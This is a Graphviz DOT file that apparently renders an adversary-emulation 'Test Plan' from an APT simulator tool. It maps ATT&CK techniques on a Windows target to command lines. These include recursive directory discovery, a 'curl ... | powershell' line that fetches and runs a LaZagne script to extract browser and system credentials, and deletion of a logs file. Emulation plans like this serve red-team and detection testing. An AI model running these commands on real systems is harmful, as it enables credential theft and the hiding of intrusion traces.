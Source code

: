 digraph {
	label=<<font point-size="24">Test Plan</font><br/><i>This is test Plan</i><br/><font point-size="10">Author: APT Simulator</font><br/><font point-size="10">Created: 2024-05-04 18:02:36.550140+00:00</font><br/><font point-size="10">Modified: 2024-05-04 18:02:36.550140+00:00</font>>;
	labelloc="t";
	"attack-action--209d47b3-6cff-4a2c-b555-71028ca327e6" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1083</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1083</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">File and Directory Discovery (cmd.exe)</TD></TR></TABLE>> shape=plaintext]
	"attack-action--209d47b3-6cff-4a2c-b555-71028ca327e6" -> "attack-asset--afb26a27-2c11-472f-bd5e-41e736ea2dbb" [label=asset]
	"attack-action--209d47b3-6cff-4a2c-b555-71028ca327e6" -> "attack-action--c4be27e0-9222-4663-8a7c-cc7dd4ea9be4" [label=effect]
	"attack-action--209d47b3-6cff-4a2c-b555-71028ca327e6" -> "process--6b2568ad-b612-45aa-bc15-104958d4a443" [label=process]
	"attack-asset--afb26a27-2c11-472f-bd5e-41e736ea2dbb" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--6b2568ad-b612-45aa-bc15-104958d4a443" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">dir /s c:\\ &gt;&gt; T1083_cmd_text.txt ;dir /s &quot;c:\\Documents and Settings&quot; &gt;&gt; T1083_cmd_text.txt ;dir<br/>/s &quot;c:\\Program Files\\&quot; &gt;&gt; T1083_cmd_text.txt ;dir &quot;%systemdrive%\\Users\\*.*&quot; &gt;&gt;<br/>T1083_cmd_text.txt ;dir &quot;%userprofile%\\AppData\\Roaming\\Microsoft\\Windows\\Recent\\*.*&quot; &gt;&gt;<br/>T1083_cmd_text.txt ;dir &quot;%userprofile%\\Desktop\\*.*&quot; &gt;&gt; T1083_cmd_text.txt ;tree /F &gt;&gt;<br/>T1083_cmd_text.txt</TD></TR></TABLE>> shape=plaintext]
	"attack-action--c4be27e0-9222-4663-8a7c-cc7dd4ea9be4" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1552.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1552.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Extract Browser and System credentials<br/>with LaZagne</TD></TR></TABLE>> shape=plaintext]
	"attack-action--c4be27e0-9222-4663-8a7c-cc7dd4ea9be4" -> "attack-asset--afb26a27-2c11-472f-bd5e-41e736ea2dbb" [label=asset]
	"attack-action--c4be27e0-9222-4663-8a7c-cc7dd4ea9be4" -> "attack-condition--88b271cb-700d-4eb8-bd86-a51ed2dc179d" [label=condition]
	"attack-action--c4be27e0-9222-4663-8a7c-cc7dd4ea9be4" -> "process--635c16f7-fe3e-43d1-81a7-4b3cdceca702" [label=process]
	"attack-asset--afb26a27-2c11-472f-bd5e-41e736ea2dbb" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--635c16f7-fe3e-43d1-81a7-4b3cdceca702" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">curl http:///lazage.ps1 | powershell</TD></TR></TABLE>> shape=plaintext]
	"attack-condition--88b271cb-700d-4eb8-bd86-a51ed2dc179d" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ff99" COLSPAN="2"><B>Condition</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">create_file_on_host echo hello &gt;<br/>{file_name}</TD></TR></TABLE>> shape=plaintext]
	"attack-condition--88b271cb-700d-4eb8-bd86-a51ed2dc179d" -> "attack-action--8e2146fb-c380-4d93-b184-d17ac01fc168" [label=on_true]
	"attack-action--8e2146fb-c380-4d93-b184-d17ac01fc168" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1070.004</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1070.004</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Delete file from privleged<br/>&quot;logs&quot; folder</TD></TR></TABLE>> shape=plaintext]
	"attack-action--8e2146fb-c380-4d93-b184-d17ac01fc168" -> "attack-asset--afb26a27-2c11-472f-bd5e-41e736ea2dbb" [label=asset]
	"attack-action--8e2146fb-c380-4d93-b184-d17ac01fc168" -> "process--038e881d-632e-4b67-be41-b2f544c4dae5" [label=process]
	"attack-asset--afb26a27-2c11-472f-bd5e-41e736ea2dbb" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--038e881d-632e-4b67-be41-b2f544c4dae5" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">del T1070.004_1_logs.txt</TD></TR></TABLE>> shape=plaintext]
}
